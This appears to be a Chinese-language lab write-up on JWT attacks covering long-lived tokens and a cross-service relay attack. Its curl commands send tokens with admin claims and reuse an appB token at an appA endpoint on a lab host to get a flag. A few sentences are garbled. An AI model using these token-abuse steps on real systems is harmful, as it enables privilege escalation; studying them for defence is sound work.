 
## JWT 生命周期
在验证 Token 的签名之前，需要计算 Token 的生命周期，确保 Token 没有过期。这通常是通过从令牌中读取 exp （expiration time） 声明并计算令牌是否仍然有效来执行的。

一个常见的问题是，如果 exp 值设置得太大（或根本没有设置），则令牌的有效期会太长，甚至可能永远不会过期。跟 cookies，则 cookie 可以在服务器端过期。但是，JWT 不会内置了相同的功能。如果我们想在 exp time，我们必须保留这些令牌的黑名单，打破使用同一身份验证服务器的去中心化应用程序的模式。因此，根据应用程序的功能，应注意选择正确的 exp 值。例如，邮件服务器和银行应用程序之间可能使用不同的 exp 值。

```
使用未过期的payload可以获得flasg

curl -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.ko7EQiATQQzrQPwRO8ZTY37pQWGLPZWEvdWH0tVDNPU' http://10.10.87.36/api/v1.0/example6?username=admin
```

![image.png](https://s2.loli.net/2025/07/16/z9ORDCmybK56fpU.png)


## 跨服务中继攻击
常见错误配置是 Cross-Service 错误配置。如前所述，JWT 通常用于具有为多个应用程序提供服务的集中式身份验证系统的系统。但是，在某些情况下，我们可能希望限制使用 JWT 访问哪些应用程序，尤其是当存在仅应对某些应用程序有效的声明时。这可以通过使用 audience 声明来完成。但是，如果受众声明未正确实施，则可以执行跨服务中继攻击来执行权限提升攻击

JWT 可以具有受众声明。在单个身份验证系统为多个应用程序提供服务的情况下，audience 声明可以指示 JWT 适用于哪个应用程序。但是，此受众声明的实施必须在应用程序本身上进行，而不是在身份验证服务器上进行。如果此声明未得到验证，因为 JWT 本身仍通过签名验证被视为有效。

如果用户在某个应用程序上具有管理员权限或更高角色。分配给用户的 JWT 通常具有指示此内容的声明，例如 “admin” ： true。但是，同一用户可能不是同一身份验证系统提供的不同应用程序上的 admin。如果第二个应用程序（也使用其 admin 声明）未验证 audience 声明，则服务器可能会错误地认为该用户具有 admin 权限。这称为跨服务中继攻击

```
获得A服务的 token
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password7", "application" : "appA"}' http://10.10.87.36/api/v1.0/example7

获得B服务的token
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password7", "application" : "appB"}' http://10.10.87.36/api/v1.0/example7
```

![image.png](https://s2.loli.net/2025/07/16/6WPzvKx9cVDl8rX.png)

![image.png](https://s2.loli.net/2025/07/16/KbQfPY2oJTEWjBN.png)

![image.png](https://s2.loli.net/2025/07/16/V8UI5TaEHdCtJBS.png)


![image.png](https://s2.loli.net/2025/07/16/pbcCJlG4jYHi7Kd.png)


我们利用 a 的 jwt的中间部分的 payload 拼接到 b 的 jwt 中
```
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MSwiYXVkIjoiYXBwQiJ9.jrTcVTGY9VIo-a-tYq_hvRTfnB4dMi_7j98Xvm-xb6o' http://10.10.87.36/api/v1.0/example7_appA?username=admin
```


获得 flag
![image.png](https://s2.loli.net/2025/07/16/V6DAU34JX9ek27a.png)
